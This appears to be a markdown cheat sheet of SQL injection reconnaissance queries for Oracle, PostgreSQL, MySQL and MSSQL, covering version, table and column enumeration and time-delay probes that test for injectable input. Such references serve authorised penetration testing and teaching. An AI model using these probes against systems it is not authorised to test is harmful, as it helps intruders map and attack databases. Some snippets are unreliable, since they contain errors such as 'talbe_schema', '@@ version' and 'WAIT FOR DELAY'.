   
## Oracle

* Finding version

```sql
SELECT * FROM v$version;
SELECT * FROM v$version WHERE banner LIKE 'Oracle%';
SELECT banner FROM v$version WHERE rownum=1
```

* Finding tables

```sql
SELECT table_name FROM all_tables
```

* Finding columns for every table

```sql
SELECT table_name, column_name FROM all_tab_columns
```

* Inducing _Time Delay_ to determine if the application is vulnerable to SQLi

```sql
BEGIN DBMS_LOCK.SLEEP(seconds); END;
```

## Postgres SQL

* Finding version

```sql
SELECT version()
```

* Finding tables

```sql
SELECT table_schema,table_name FROM information_schema.tables
SELECT tablename from pg_tables
```

* Finding columns for every table

```sql
SELECT table_schema,table_name,column_name FROM information_schema.columns
```

* Inducing _Time Delay_ to determine if the application is vulnerable to SQLi

```sql
PG_SLEEP(seconds)
```

## MySQL

* Finding version

```sql
SELECT @@ version
```

* Finding tables

```sql
SELECT table_schema,table_name FROM information_schema.tables
```

* Finding columns for every table

```sql
SELECT talbe_schema,table_name,column_name FROM information_schema.columns
```

* Inducing _Time Delay_ to determine if the application is vulnerable to SQLi

```sql
SLEEP(seconds)
```

## MSSQL

* Finding version

```sql
SELECT @@ version
```

* Finding tables

```sql
SELECT table_schema,table_name FROM information_schema.tables
SELECT name FROM sysobjects WHERE xtype = 'U' --
```

* Finding columns for every table

```sql
SELECT table_schema,table_name,column_name FROM information_schema.columns
```

* Inducing _Time Delay_ to determine if the application is vulnerable to SQLi

```sql
WAIT FOR DELAY '00:00:SS'
```